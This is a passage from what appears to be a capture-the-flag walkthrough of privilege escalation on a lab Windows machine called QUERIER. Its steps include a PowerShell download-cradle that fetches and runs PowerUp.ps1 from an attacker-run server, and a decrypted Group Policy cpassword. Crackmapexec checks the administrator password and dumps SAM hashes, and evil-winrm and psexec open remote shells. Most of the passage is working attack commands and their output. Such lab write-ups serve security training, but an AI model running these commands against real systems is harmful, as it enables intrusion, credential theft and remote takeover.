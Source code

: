 sudo python -m http.server 80

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/content/PowerUp.ps1')

#The script finds a password for the admin user that it was in a location, the script automatically decrypted the password.  If we read the location of the file we will se the hash string (in cpassword field).

type "C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml"

#we can pass this string or the file (groups.xml) to a gpp-decrypt (github) so it cracks the hash. It is easy decrypted cause MS shared the AES key some time ago. We can verify the credentials with crackmapexec and see if winrm can run.

crackmapexec smb 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\Administrator:MyUnclesAreMarioAndLuigi!!1! (Pwn3d!)

crackmapexec winrm 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP
HTTP        10.10.10.125    5985   10.10.10.125     [*] http://10.10.10.125:5985/wsman
WINRM       10.10.10.125    5985   10.10.10.125     [+] WORKGROUP\Administrator:MyUnclesAreMarioAndLuigi!!1! (Pwn3d!)

#we connect via winrm and from there get the flag.

evil-winrm -i 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!'

#We can do the same with psexec.

psexec.py WORKGROUP/Administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125 cmd.exe

-----------
#we can dump the SAM and then use the hash for a "pass-the-hash" attack.

crackmapexec smb 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP --sam
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\Administrator:MyUnclesAreMarioAndLuigi!!1! (Pwn3d!)
SMB         10.10.10.125    445    QUERIER          [+] Dumping SAM hashes
SMB         10.10.10.125    445    QUERIER          Administrator:500:aad3b435b51404eeaad3b435b51404ee:2dcefe78334b42c0ce483b8e1b2886ab:::
SMB         10.10.10.125    445    QUERIER          Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.125    445    QUERIER          DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.10.125    445    QUERIER          WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5564df813a052fce1f477bf934863870:::
SMB         10.10.10.125    445    QUERIER          mssql-svc:1001:aad3b435b51404eeaad3b435b51404ee:0ac7bd9745e85cbea2fe0fa11f33c588:::
SMB         10.10.10.125    445    QUERIER          reporting:1002:aad3b435b51404eeaad3b435b51404ee:5c8c5434d1c5cfea71d25a364adcc5e8:::
SMB         10.10.10.125    445    QUERIER          [+] Added 6 SAM hashes to the database
